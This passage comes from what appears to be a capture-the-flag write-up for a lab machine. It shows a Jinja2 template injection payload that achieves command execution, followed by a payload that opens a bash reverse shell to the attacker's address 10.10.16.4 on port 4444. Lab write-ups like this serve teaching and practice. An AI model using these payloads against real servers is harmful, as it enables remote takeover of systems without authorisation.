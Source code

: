 Now we can use an `RCE` payload.  

<pre><code>
&#123;&#123; cycler.__init__.__globals__.os.popen(&#39;id&#39;).read() &#125;&#125;
</code></pre>

we get a nice output. 

<br/> 
<img src="/img/GoodGames_screenshots/Pasted image 20241116155123.png" alt="1" style="width:700px; height:auto;">
<br/>

We can see us being `root` so must propably a container.  
We can now execute our `rev shell` payload.   

<pre><code>
&#123;&#123;+cycler.__init__.__globals__.os.popen(&#39;bash+-c+&#34;sh+-i+&#62;&#38;+/dev/tcp/10.10.16.4/4444+0&#62;&#38;1&#34;&#39;).read()+&#125;&#125;
</code></pre>

We get a hit.   

<br/> 
<img src="/img/GoodGames_screenshots/Pasted image 20241116155347.png" alt="1" style="width:700px; height:auto;">
<br/>

